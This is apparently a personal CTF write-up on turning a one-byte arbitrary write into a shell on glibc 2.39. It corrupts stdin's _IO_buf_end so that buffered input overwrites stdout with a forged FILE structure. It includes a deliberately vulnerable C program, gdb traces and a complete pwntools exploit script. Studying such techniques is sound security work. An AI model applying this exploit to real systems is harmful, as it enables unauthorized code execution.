





## Using one byte pwn to get shell

First time i learn this is while reading nobodyisnobody's writeup. I find this technique is very useful when dealing with small size arbitrary write problems.

Here i want to note some importants while experiment and provide examples code to reuse later.

> this docs heavily based on nobody's blog

---

### 1. C template code for experiments

Here is small C code using for testing:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    setbuf(stdin, 0); // disable buffering
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    long addr, size;
    int unuse_var;

    printf("libc stdout leak: %p\n", stdout); // leak libc

    puts("you can write one byte to any addr"); // message
    
    printf("addr: "); // choose address
    scanf("%ld", &addr);

    printf("byte: "); // one byte overwrite
    read(0, (long *)addr, 1);
    
    printf("read from stdin: ");
    scanf("%d", &unuse_var); // i choose scanf because it's the most common input function in C

    puts("bye"); // trigger stdout

    return 0;
}
```

The program give you a libc leak, and one-byte arbitrary write, then some input and output function which also important (i will explain later)

For experiments, i use glibc `2.39` version (and `ld.so`) (with full debug symbols). I also wrote how to compile C code with desired glibc versions [here](/heap/compiling/readme.md).

---

### 2. Ideas overview

> The experiment hardly depends on the fact that stdin, stdout buffering is disabled. I haven't found a solution when enable but since for current CTF meta (oftenly disabled), this technique is still somehow useful...

As the buffering is disabled on stdin, stderr, and stdout, if we have a look to `_IO_2_1_stdin_` in memory:


We can see that there is a one byte buffer, that starts in this example at `0x7f09abc0ab43` and finish at `0x7f09abc0ab44`. That's the normal behavior of stdinwhen buffering is disabled. So only one byte read from `stdin` will be stored in this buffer. 

This buffer is in the middle of the `stdin` structure, its stored the last previous input:



But if we modify the `_IO_buf_end` entry of `stdin`, we can restore the buffering that was disabled. For example we can overwrite with our byte the LSB of `_IO_buf_end` or even better the byte above the LSB to extend the buffer further in memory.

When a function will try to read from `stdin`, like `getchar()` for example, is that the data sent on `stdin` will be buffered in the buffer, and we will overwrite the last part of stdin, and further in memory up to `_IO_buf_end`.

> Remember that to trigger buffer, we must input data from `stdin` FILE structure, not fileno `0`, eg `read(0, buf, size)` wont trigger anything since it directly call to `syscall`.

`getchar()` will still return only one byte, but the additional data sent will be written in our new buffer, it will be buffered.

That is interesting because `stdout` is further in memory `0x???` bytes after `stdin`, and so we will be able to overwrite stdout (and `stderr` which is on the way before `stdout`).

We will just have to take care of restoring the end of `stdin` on the way. The zone between stdinand stdoutwill be filled with zeroes (**not really**!?).

For example if we overwrite the second lsb of `_IO_buf_end`, to extend the buffer up to after `stdout` then we send a long `AAAAAAA....` string as input, here is the resulting `stdin` after:



You can see that `_IO_buf_end` as been extended to `0x7fb37865ff44`, and that our string has overwrite the rest of `stdin` structure... You got the idea.

---

### 3. Writing exploit

For the testing, i will modify the second LSB of `stdin`'s `_IO_buf_end` to `0xff`, make buffer expand and cover whole `stdout` (and more)

Then first, we need to restore the end half of `stdin`. This quite easy, you just need to calculate offset and padding carefully, pretend that `stdin` is not overwritten and behave normal:

```python
# restore stdin
x = b"12345" # _shortbuf
x += p64(libc_base + libc.symbols['_IO_stdfile_0_lock']) # _lock
x += p64(0xffffffffffffffff) # _offset
x += p64(0)
x += p64(libc_base + libc.symbols['_IO_wide_data_0']) # _IO_wide_data_0
x += p64(0) * 3
x += p32(0xffffffff) # _mode
x += p32(0) + p64(0) * 2
x += p64(libc_base + libc.symbols['_IO_file_jumps']) # vtable
payload = x
```

Then padding the gap to reach to `stdout`. In here i padding it with full of `b"A"`, means that ignore `stderr`, but the exploit is working successfully. If you, met any error with `stderr` related, you should try to restore `stderr` too (yes a lot of padding skills here):

```python
# padding into stdout, skip stderr (its works, io behaviour normal (i guess))
pad_len = libc.symbols['_IO_2_1_stdout_'] - (libc.symbols['_IO_2_1_stdin_'] + 131)
payload = payload.ljust(pad_len, b"A")
```

Then i just need to overwrite `stdout` with some fsop paths i introduced in [this](/fsop/io_paths/readme.md).

First time run the exploit, i got error, let see in gdb:



Yes you can easily know we overwrite something that's important to the program. I set a breakpoint before that a little to see and debug normally, what should happen:

```
pwndbg> b *__vfscanf_internal+1530
Breakpoint 4 at 0x7fd63b7f7a4a: file vfscanf-internal.c, line 679.
pwndbg>
```



The program move address in `[r12 + 0x68]` to `rax`, we were overwrite it to full of `b"A"` so probally it can not deference. To handle this just need to padding the original value right there:

```python
## b *__vfscanf_internal+1530
### 0x7f10a0b34a4a <__vfscanf_internal+1530>    mov    rax, qword ptr [r12 + 0x68]     RAX, [_nl_global_locale+104] => 0x7f10a0c4f8e0 (_nl_C_LC_CTYPE_class+256) ◂— 0x2000200020002
pad_len = libc_base + 0x1d05a0 - (libc_base + libc.symbols['_IO_2_1_stdin_'] + 131) + 0x68
payload = payload.ljust(pad_len, b"A")
payload += p64(libc_base + 0x1768e0)
```

And run the exploit again, we successfully get shell:



That's all. A very powerful technique isnt it?

#### 3.1. The full exploit

And here is the full script

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF('./tmp')
libc = ELF('/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6')
context.binary = exe

script = '''
b *main + 112
b *main + 268
b *main + 283
b *__vfscanf_internal + 1530
'''

p = process('./tmp')
#p = gdb.debug('./tmp', gdbscript = script)

p.recvuntil(b"leak: ")
libc_base = int(p.recvline(), 16) - libc.symbols['_IO_2_1_stdout_']

# aim for [stdin's buf_end + 1]
stdin_bufend = libc_base + libc.symbols['_IO_2_1_stdin_'] + 0x41
p.sendlineafter(b"addr: ", f"{stdin_bufend}".encode())

# modify second LSB, expand buffer
p.sendafter(b"byte: ", p8(0xff))

# restore stdin
x = b"12345" # _shortbuf
x += p64(libc_base + libc.symbols['_IO_stdfile_0_lock']) # _lock
x += p64(0xffffffffffffffff) # _offset
x += p64(0)
x += p64(libc_base + libc.symbols['_IO_wide_data_0']) # _IO_wide_data_0
x += p64(0) * 3
x += p32(0xffffffff) # _mode
x += p32(0) + p64(0) * 2
x += p64(libc_base + libc.symbols['_IO_file_jumps']) # vtable
payload = x

# A LOT OF PADDING SKILL HERE

## b *__vfscanf_internal+1530
### 0x7f10a0b34a4a <__vfscanf_internal+1530>    mov    rax, qword ptr [r12 + 0x68]     RAX, [_nl_global_locale+104] => 0x7f10a0c4f8e0 (_nl_C_LC_CTYPE_class+256) ◂— 0x2000200020002
pad_len = libc_base + 0x1d05a0 - (libc_base + libc.symbols['_IO_2_1_stdin_'] + 131) + 0x68
payload = payload.ljust(pad_len, b"A")
payload += p64(libc_base + 0x1768e0)

# padding into stdout, skip stderr (its works, io behaviour normal (i guess))
pad_len = libc.symbols['_IO_2_1_stdout_'] - (libc.symbols['_IO_2_1_stdin_'] + 131)
payload = payload.ljust(pad_len, b"A")

# overwrite stdout
## fsop (copy straight from note)
_IO_2_1_stdout_ = libc_base + libc.symbols['_IO_2_1_stdout_']
system = libc_base + libc.symbols['system']
fp = FileStructure()
fp.flags = 0xfbad2484 + (u32(b"||sh") << 32)
fp._IO_read_end = system
fp._lock = _IO_2_1_stdout_ + 0x50
fp._wide_data = _IO_2_1_stdout_
fp.vtable = libc_base  + libc.symbols['_IO_wfile_jumps'] - 0x20
fake_stdout = bytes(fp) + p64(_IO_2_1_stdout_ + 0x10 - 0x68)

# send payload and trigger fsop
payload += fake_stdout
p.sendlineafter(b"stdin: ", payload)

p.interactive()
```

You should change the offset calculated to adapt with your libc versions and local setting. I know it not clean looking but here is just my poc and note for me to reuse or refresh later.

### 4. Final thoughts and references

I think when you got small size arbitrary write problems, eg not enough to overwrite whole `stdout`, first target the `stdin`'s buffer is a wise choice. Honestly i just use this technique 2 times before, but its good to know.

- https://github.com/nobodyisnobody/write-ups/tree/main/GlacierCTF.2023/pwn/Write.Byte.Where